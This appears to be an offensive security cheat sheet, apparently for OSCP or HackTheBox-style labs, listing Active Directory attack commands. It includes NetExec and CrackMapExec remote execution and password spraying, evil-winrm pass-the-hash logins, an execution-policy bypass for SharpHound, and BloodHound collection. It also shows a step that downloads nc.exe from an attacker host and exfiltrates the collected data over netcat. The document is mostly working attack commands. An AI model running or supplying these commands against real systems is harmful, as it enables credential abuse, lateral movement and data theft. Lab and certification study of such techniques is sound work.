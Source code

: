 ## NetExec (NXC)
```
# SMB
nxc smb 192.168.1.10 -u administrator -p 'Passw0rd!' -x "whoami"
nxc smb 192.168.1.0/24 -u user -p pass --shares

# WinRM
nxc winrm 192.168.1.10 -u administrator -p 'Passw0rd!' -x "hostname"

#RDP
nxc rdp 192.168.1.10 -u administrator -p 'Passw0rd!'
nxc rdp 192.168.1.10 -u administrator -H <NTLM_HASH>

#LDAP
nxc ldap 192.168.1.5 -u 'oscp.local\user' -p 'Passw0rd!' --groups

# MSSQL
nxc mssql 192.168.1.20 -u sa -p 'Passw0rd!' -x "SELECT @@version"

#SSH
nxc ssh 192.168.1.50 -u root -p toor -x "id"
```

### Password
- SMB 
`crackmapexec smb {IP} -u user.txt -p /usr/share/wordlists/rockyou.txt --shares` 
- WinRM 
`crackmapexec winrm {IP} -u administrator -p 'Passw0rd!'`
- RDP
`crackmapexec rdp {IP} -u user.txt -p pass.txt`
### User
- SMB
`crackmapexec smb {IP} --users`\
`crackmapexec smb {IP} -u '' -p '' --users`
- Ldap
`crackmapexec ldap {IP} -u '' -p '' --users`

## winrm
- `evil-winrm -i {IP} -u {USER} -H {HASH}`
- `evil-winrm -i {IP} -u {USER} -p {PWD}`

## Sharphound
- Path: `/usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1`
- `powrshell -ep bypass`
- `. .\SharpHound.ps1`
- `Invoke-BloodHound -CollectionMethod All -OutputDirectory "C:\Users\L.Livingstone\Documents"`

## Bloodhound
- `bloodhound-python -u {USER} -p {PWD} -d nagoya-industries.com -dc nagoya.nagoya-industries.com -ns 192.168.122.21 --dns-tcp --disable-autogc -c all`
- `bloodhound-python -u 'ant.edwards' -p 'Antman2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip `
- (回傳 Kali)
    - (Windows) `(New-Object Net.WebClient).DownloadFile("http://{Kali IP}/nc.exe", "C:\Users\f.frizzle\Desktop\nc.exe")`
    - (kali) `nc -lvnp 55688 > BloodHound.zip`
    - (Windows) `cmd /c ".\nc.exe {Kali IP} 55688 < 20250518152732_BloodHound.zip"`
- 標記 User as Owned: `MATCH (u:User) RETURN u`
